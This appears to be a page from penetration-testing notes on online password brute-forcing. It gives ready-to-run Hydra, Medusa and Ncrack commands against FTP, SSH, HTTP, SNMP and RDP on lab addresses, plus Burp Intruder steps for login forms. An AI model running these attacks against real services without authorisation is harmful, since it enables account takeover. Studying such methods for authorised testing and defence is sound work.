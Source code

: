 # Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

> [https://tools.kali.org/password-attacks/hydra](https://tools.kali.org/password-attacks/hydra)

## Port 21 - FTP

```text
hydra -L users.txt -e nsr 192.168.56.102 ftp
# -e nsr try "n" null password, "s" login as pass and/or "r" reversed login
```

## Port 22 - SSH

```text
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```


